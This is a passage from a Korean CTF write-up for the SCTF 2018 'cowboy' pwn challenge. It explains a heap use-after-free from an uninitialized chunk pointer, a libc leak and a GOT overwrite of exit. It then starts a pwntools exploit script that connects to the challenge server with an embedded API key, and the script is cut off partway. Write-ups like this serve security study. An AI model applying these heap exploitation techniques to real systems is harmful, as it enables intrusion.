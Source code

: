 fill_data는 chunk에 입력 값을 write하는데 buf의 용도로 해당 chunk의 크기와 동일한 크기의 동적할당하여 memcpy 이후 해제된다.  
<img src="/assets/images/sctf2018/cowboy/4.png" width="100%"/>

이것과 alloc 이용해서 UAF를 트리거 시킬 수 있는데 chunk의 next 부분이 초기화 되지 않아서 fill_data에서 입력한 값으로 설정된다.  

여기서 show heap cunk함수로 libc leak을 할 수 있다.  

동일한 방법으로 got 주소를 가리키는 주소로 UAF 트리거 하여 bin에 적재하고 fill_data 함수로 got overwrite하면 된다.  

처음엔 Free를 one shot gadget으로 덮었지만 조건이 맞지 않아 실패하였고 exit를 덮는 방법으로 바꿔서 풀 수 있었다.  







## Exploit code:

```python
#!/usr/bin/env python
from pwn import *
import json

addr = "cowboy.eatpwnnosleep.com"
port = 14697
binary = "./cowboy"

elf = ELF(binary)

rand_plt = elf.plt['rand']
rand_got = elf.got['rand']


libc = ELF("./libc.so")
rand_offset = libc.symbols['rand']
system_offset = libc.symbols['system']

exit_got_ptr = 0x0000000000400708

s = remote(addr, port)

def auth():
    a = {
            'apikey' : '349b7ec9c6b3caa710b03589aede7a9bcf2c1466307e7f6a3ce3ef1b8c30aa0e',
        }
    s.send(json.dumps(a).encode())
    print s.recv(102400)

def menu(_index):
    sleep(0.1)
    s.recvuntil("5. exit")
    s.recvuntil("----------------------------------------")
    s.sendline(str(_index))
```